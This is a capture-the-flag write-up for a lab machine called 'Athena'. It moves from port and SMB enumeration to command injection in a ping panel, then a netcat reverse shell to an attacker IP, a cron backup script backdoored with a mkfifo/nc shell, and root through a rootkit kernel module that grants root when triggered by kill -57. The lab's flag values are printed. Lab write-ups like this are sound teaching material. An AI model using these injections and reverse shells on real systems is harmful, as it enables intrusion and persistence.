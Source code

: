 # Athena :
```sh
export IP=room-ip
```
# Information Gathering: 

nmap -sV -sC -A  $IP
```sh
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-05 00:25 CEST
Nmap scan report for 10.10.155.144
Host is up (0.14s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3b:c8:f8:13:e0:cb:42:60:0d:f6:4c:dc:55:d8:3b:ed (RSA)
|   256 1f:42:e1:c3:a5:17:2a:38:69:3e:9b:73:6d:cd:56:33 (ECDSA)
|_  256 7a:67:59:8d:37:c5:67:29:e8:53:e8:1e:df:b0:c7:1e (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Athena - Gods of olympus
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: -33s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-05-04T22:25:31
|_  start_date: N/A
|_nbstat: NetBIOS name: ROUTERPANEL, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.53 seconds
```
Now, we have some services that are running in the machine.
# Enumerating this services: 

![Screenshot_22](https://github.com/a-9-k/Rooms-Write_Up-THM/assets/53786047/7c256c8a-fad5-4434-867a-f278095acd9d)

Nothing in Here.

I used a tool called enum4linux for the smb  
```sh
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\ubuntu (Local User)
S-1-22-1-1001 Unix User\athena (Local User)

Sharename       Type      Comment
	---------       ----      -------
	public          Disk      
	IPC$            IPC       IPC Service (Samba 4.15.13-Ubuntu)
 
 [+] Attempting to map shares on 10.10.155.144

//10.10.155.144/public	Mapping: OK Listing: OK Writing: N/A
```

By this information i was able to use smbclient to enter the Public share

```sh
smbclient  //10.10.155.144/public
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Apr 17 02:54:43 2023
  ..                                  D        0  Mon Apr 17 02:54:05 2023
  msg_for_administrator.txt           N      253  Sun Apr 16 20:59:44 2023
```
So we found text file from the administrator exposing the  dir /myrouterpanel 

```sh
cat msg_for_administrator.txt 

Dear Administrator,

I would like to inform you that a new Ping system is being developed and I left the corresponding application in a specific path, which can be accessed through the following address: /myrouterpanel

Yours sincerely,

Athena
Intern
```
Let’s visit the directory /myrouterpanel.

![Screenshot_23](https://github.com/a-9-k/Rooms-Write_Up-THM/assets/53786047/d010c5af-2dfc-48f3-979d-a6788daab527)

by seeing this ping tool it obvious that we have a command injection vuln
$(ls) !ls ;ls .....
I managed to get this injection to get me a reverse shell 

```sh
127.0.0.1 -c `nc 10.8.46.178 9001 -e /bin/sh`
nc -lvnp 9001

listening on [any] 9001 ...
connect to [10.8.46.178] from (UNKNOWN) [10.10.155.144] 51460
ls
index.html
ping.php
style.css
under-construction.html

```
# stabilize the reverse shell :
```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
Press CTRL + Z to background process and get back to your host machine
stty raw -echo; fg
export TERM=xterm
```
Here I used linpeas.sh to enumerate the machine.
```sh
my machine : python3 -m http.server 8000
reverse shell : wget http://vpnIP/linpeas.sh -O linpeas.sh
```
I found this file /usr/share/backup/backup.sh with athena as the owner, so i add revshell to the file bc it has crontab running the sh file.

```sh

-rwxr-xr-x   1 www-data athena     258 May 28  2023 backup.sh

www-data@routerpanel:/usr/share/backup$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.46.178 4444 >/tmp/f'  >> backup.sh
www-data@routerpanel:/usr/share/backup$ cat backup.sh 
#!/bin/bash

backup_dir_zip=~/backup

mkdir -p "$backup_dir_zip"

cp -r /home/athena/notes/* "$backup_dir_zip"

zip -r "$backup_dir_zip/notes_backup.zip" "$backup_dir_zip"

rm /home/athena/backup/*.txt
rm /home/athena/backup/*.sh

echo "Backup completed..."
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.46.178 4444 >/tmp/f
-----------------------------------------------------------------------------------------------------------------------------------------------------
in my machine
nc -lvnp 4444             
listening on [any] 4444 ...
connect to [10.8.46.178] from (UNKNOWN) [10.10.155.144] 60748
/bin/sh: 0: can't access tty; job control turned off
$ id     
uid=1001(athena) gid=1001(athena) groups=1001(athena)
$ cat user.txt
857c4a4fbac638afb6c7ee45eb3e1a28

```
 What we can run as sudo.
```sh
athena@routerpanel:~/notes$ sudo -l
Matching Defaults entries for athena on routerpanel:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User athena may run the following commands on routerpanel:
    (root) NOPASSWD: /usr/sbin/insmod /mnt/.../secret/venom.ko
```
# Privilege escalation:

 I decompile the file venom.ko , and  i used chatgpt to understand it so i found that 
```sh
 The code you've provided isn't inherently vulnerable by itself; rather, it's designed to exploit vulnerabilities or weaknesses in the Linux kernel. Let's break down potential vulnerabilities or risks associated with this code:

Kernel Code Modification: The code modifies the behavior of certain system calls by hooking into them. This kind of modification introduces a risk of instability or unintended behavior in the kernel. If the modification is not implemented correctly or conflicts with other parts of the kernel, it could lead to system crashes or security vulnerabilities.

Privilege Escalation: By intercepting the kill system call, the code grants root privileges (give_root) based on specific conditions. If an attacker can trigger these conditions, they may be able to escalate their privileges to root, gaining complete control over the system.
Process Hiding: The code includes functionality (is_invisible) to hide certain processes from being listed by system calls like getdents and getdents64. While this may be used for legitimate purposes, such as hiding sensitive processes, it can also be abused by malware to conceal its presence on the system, making it harder for security tools and administrators to detect.

Kernel Module Loading: The code is implemented as a kernel module (diamorphine_init), which means it can be loaded into the kernel dynamically. Kernel modules have elevated privileges and can interact directly with kernel internals, making them powerful tools for both legitimate and malicious purposes. However, loading unauthorized or malicious kernel modules introduces significant security risks, as they can bypass standard security mechanisms and directly manipulate the kernel.

Lack of Input Validation: The code does not appear to perform extensive input validation, particularly in functions like hacked_getdents and hacked_getdents64, where directory entries are filtered based on specific criteria. Without proper input validation, there's a risk of buffer overflows, out-of-bounds accesses, and other vulnerabilities that could be exploited by attackers to compromise the system.

```
```
# exploited
athena@routerpanel:/mnt/.../secret$ sudo /usr/sbin/insmod /mnt/.../secret/venom.ko
athena@routerpanel:/mnt/.../secret$ kill -57 0
athena@routerpanel:/mnt/.../secret$ whoami
root
athena@routerpanel:/mnt/.../secret$ cd /root/
athena@routerpanel:/root$ ls
fsociety00.dat  root.txt
athena@routerpanel:/root$ cat root.txt 
aecd4a3497cd2ec4bc71a2315030bd48
```

